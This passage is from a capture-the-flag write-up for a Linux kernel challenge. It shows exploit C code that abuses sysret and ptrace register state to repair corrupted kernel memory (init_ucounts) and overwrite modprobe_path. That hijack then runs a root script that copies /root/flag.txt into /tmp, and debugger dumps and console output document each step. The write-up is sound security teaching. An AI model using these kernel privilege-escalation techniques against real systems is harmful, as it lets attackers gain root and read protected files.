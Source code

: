 Above is what `init_ucounts` looks like just after boot, I just had to make it look somewhat like that again hopefully the faults would just go away.

```c
...
    // fixup corrupted init_ucounts
    regs.rbp = 0x0000002d00000000;
    regs.r12 = kaslr + 0x103a320;
    regs.r13 = kaslr + 0x1640160;
    regs.r14 = phys + 0x100049600;

    // position register dump over init_ucounts
    do_sysret(modprobe_path-0xd8, &regs);
...
```

I set up the regisers for ptrace so that the four qwords that are actually set would be set back to their initial values, and gave it a go:

```
gef> x/20gx &init_ucounts
0xffffffff8203b6c0 <init_ucounts>:      0xffff888100049600      0xffffffff82640160
0xffffffff8203b6d0 <init_ucounts+16>:   0xffffffff8203a320      0x0000002e00000000
0xffffffff8203b6e0 <init_ucounts+32>:   0x0000612f706d742f      0x0000000000000246
0xffffffff8203b6f0 <init_ucounts+48>:   0x0000612f706d742f      0x0000612f706d742f
0xffffffff8203b700 <init_ucounts+64>:   0x0000612f706d742f      0x0000000000000054
0xffffffff8203b710 <init_ucounts+80>:   0x8000000000000000      0x0000612f706d742f
0xffffffff8203b720 <init_ucounts+96>:   0x0000612f706d742f      0x0000612f706d742f
0xffffffff8203b730 <init_ucounts+112>:  0xffffffffffffffff      0xffffffff81a00191
0xffffffff8203b740 <init_ucounts+128>:  0x0000000000000010      0x0000000000010046
```

Well, it looks horrible but maybe it is close enough? hopefully?

So I tried triggering my hijacked `modprobe_path` again, and...

```
ctf@corctf:~$ /sysret
KASLR base ffffffff81000000
PHYS base ffff888000000000
gsbase: 0xffff88813bc00000
[    5.115530] general protection fault, maybe for address 0x51: 0000 [#1] PREEMPT SMP NOPTI
...
[    5.150788] general protection fault, maybe for address 0x53: 0000 [#2] PREEMPT SMP NOPTI
...
ctf@corctf:~$ /tmp/bad
/tmp/bad: line 1: : not found
```

I... didn't crash? It actually worked!?!


I went ahead and added a few more lines to my exploit to automatically create /tmp/a which will copy the flag to /tmp where I can read it.

```c
    // called by modprobe
    system("echo -ne \"#!/bin/sh\ncp /root/flag.txt /tmp/heckyeah\nchown ctf:ctf /tmp/heckyeah\" > /tmp/a");
    system("chmod 777 /tmp/a");

    ...

    // trigger modprobe
    system("/tmp/bad");

    // get flag
    system("cat /tmp/heckyeah");
}
```